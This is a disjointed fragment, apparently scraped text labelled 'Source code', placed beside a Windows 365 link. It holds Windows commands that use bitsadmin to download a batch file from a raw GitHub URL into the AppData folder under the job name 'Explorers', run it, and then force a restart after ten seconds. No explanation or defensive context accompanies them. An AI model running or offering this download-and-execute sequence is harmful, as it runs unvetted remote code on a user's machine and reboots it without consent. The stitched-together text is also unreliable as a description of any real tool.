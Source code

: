 https://windows365.microsoft.com/

bitsadmin.exe /transfer Explorers /download /priority FOREGROUND https://raw.githubusercontent.com/xcgx/strange/main/start.bat %appdata%\start.bat

%appdata%\start.bat

shutdown -r -t 10
